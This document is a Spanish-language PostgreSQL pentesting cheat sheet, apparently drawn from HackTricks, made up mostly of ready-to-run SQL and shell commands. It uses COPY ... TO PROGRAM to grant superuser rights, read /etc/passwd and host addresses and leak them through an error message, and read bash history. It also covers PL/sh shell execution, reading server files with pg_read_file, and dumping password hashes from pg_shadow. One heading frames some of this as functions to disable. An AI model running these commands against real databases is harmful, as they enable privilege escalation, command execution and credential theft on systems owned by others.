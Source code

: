 


### Ejecutar bash con el comando copy y obtener información valiosa del servidor 
```
COPY (select '') to PROGRAM 'psql -U postgres -c "ALTER USER <your_username> WITH SUPERUSER;"';

COPY ( select '' ) TO PROGRAM 'cat > /tmp/data.txt && cat /etc/passwd >> /tmp/data.txt  && echo $(hostname -I ) - $(hostname) >> /tmp/data.txt &&  paste -s -d, - < /tmp/data.txt  > /tmp/test2.txt';

--- El contenido del passwd se te mostrara en la primera linea que dice "ERROR:  invalid input syntax for type bigint:"
COPY cat_prueba from  PROGRAM 'cat /tmp/test2.txt';

--- En linux puede usar el comando para ver el historial de comandos, esto lo puedes juntar con el comando copy y puedes ver todo lo que se ejecuta
cat ~/.bash_history > /tmp/historial.txt

-- comando linux para saber con que usuario estoy usando
whoami
```


###  Técnica  de verificación de versiones:
```
select now();
select string_agg()
select current_database();
```


# Funciones que se tienen que desactivar 

FUNCIONES
**ver estadisticas de un archivo**
```
select pg_stat_file('/tmp/recetas/nnnn.txt');
```

-- Manipulacion de ficheros 
```
select pg_read_file('/etc/hostname') --- Leee un archivo de texto
pg_write_file
copy
pgcrypto
```

-- Busca funciones del sistema que te permite manipular el sistema
```
\df *pg_re*
SELECT proname FROM pg_proc WHERE proname ilike 'pg_w%';
SELECT proname FROM pg_proc WHERE proname ilike 'pg_r%';
SELECT proname FROM pg_proc WHERE proname ilike 'pg_l%';

select pg_ls_dir('/tmp');
select pg_ls_logdir();
```

-- ejecutar comandos de manera remota 
dblink

-- Ejecutas bash 
La extensión PL/sh en PostgreSQL se utiliza para ejecutar código en lenguaje de shell (como bash) dentro de funciones almacenadas en la base de datos
```
CREATE OR REPLACE FUNCTION my_function() RETURNS void AS $$
#!/bin/bash
# Aquí puedes escribir tu código en lenguaje de shell
echo "Hola desde PL/sh en PostgreSQL"
# Puedes ejecutar comandos del sistema, manipular archivos, etc.
$$ LANGUAGE plsh;

SELECT my_function();
```




```
-- Puedes ver las extensiones disponibles para habilitar
select * from pg_available_extensions where name ilike '%fdw%';

-- Puedes ver las extensiones habilitadas 
select * from pg_extension 

-- habilitar una extension 
CREATE EXTENSION IF NOT EXISTS postgres_fdw;

-- Eliminas las extensiones
DROP EXTENSION IF EXISTS postgres_fdw CASCADE; 
```










```
-- ver la zona horaria
current_setting('TIMEZONE')

# Get current user
SELECT user;
SELECT pg_backend_pid();

# Get current database
SELECT current_catalog;

# List schemas
SELECT schema_name,schema_owner FROM information_schema.schemata;
\dn+

#List databases
SELECT datname FROM pg_database;

#Read credentials (usernames + pwd hash)
SELECT usename, passwd from pg_shadow;

# Get languages
SELECT lanname,lanacl FROM pg_language;

# Show installed extensions
SHOW rds.extensions;
SELECT * FROM pg_extension;

# Get history of commands executed
\s
select * from pg_stat_statements ;

GRANT pg_execute_server_program TO "username";
GRANT pg_read_server_files TO "username";
GRANT pg_write_server_files TO "username";

## If response is "on" then true, if "off" then false
SELECT current_setting('is_superuser');


SELECT grantee,table_schema,table_name,privilege_type FROM information_schema.role_table_grants WHERE table_name='pg_shadow';



SHOW logging_collector;
SHOW password_encryption;
SHOW shared_preload_libraries;
SHOW hba_file;
SHOW data_directory;

SELECT boot_val,reset_val FROM pg_settings WHERE name='listen_addresses';
SELECT boot_val,reset_val FROM pg_settings WHERE name='data_directory';
SELECT boot_val,reset_val FROM pg_settings WHERE name='log_directory';

SELECT boot_val,reset_val FROM pg_settings WHERE name='port';
SELECT inet_server_addr();
SELECT current_timestamp; 

select * from from pg_hba_file_rules;
Select * from  pg_stat_activity    ;



```


bibliografía  :
https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql
